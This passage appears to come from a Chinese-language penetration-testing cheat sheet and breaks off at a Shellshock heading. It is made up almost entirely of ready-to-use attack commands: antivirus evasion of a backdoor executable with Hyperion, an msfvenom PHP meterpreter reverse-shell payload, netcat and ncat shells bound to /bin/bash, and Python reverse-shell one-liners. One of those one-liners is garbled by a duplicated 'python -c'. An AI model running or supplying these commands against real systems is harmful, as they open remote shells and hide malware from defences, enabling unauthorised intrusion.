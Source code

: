 ````bash

sshuttle是一个很棒的隧道工具，它摆脱了对代理链的需求。以下命令的作用是通过10.0.0.1隧道传输流量，并为通过sshuttle隧道发往10.10.10.0/24的所有流量建立路由。

```bash
sshuttle -r root@10.0.0.1 10.10.10.0/24
```

### AV Bypass ###

需要安装wine和hyperion。

```bash
wine hyperion.exe ../backdoor.exe ../backdoor_mutation.exe
```
### Web主机（传输文件） ###

```bash
python -m SimpleHTTPServer 80
```

### PHP msf shell ###

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=4444 R > phpmeterpreter.php
```

### Netcat ###

监听

nc -lvp <PORT>

反弹

nc -e /bin/bash ip port

ncat -v -l -p 7777 -e /bin/bash

通过ncat下载文件

```bash
cat happy.txt | ncat -v -l -p 5555 
ncat localhost 5555 > happy_copy.txt 
```

### 使用解释器反弹shell ###

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Python

```bash
python -c python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('127.0.0.1',9000))\nwhile 1: proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
```

### Shellshock ###

CURL
````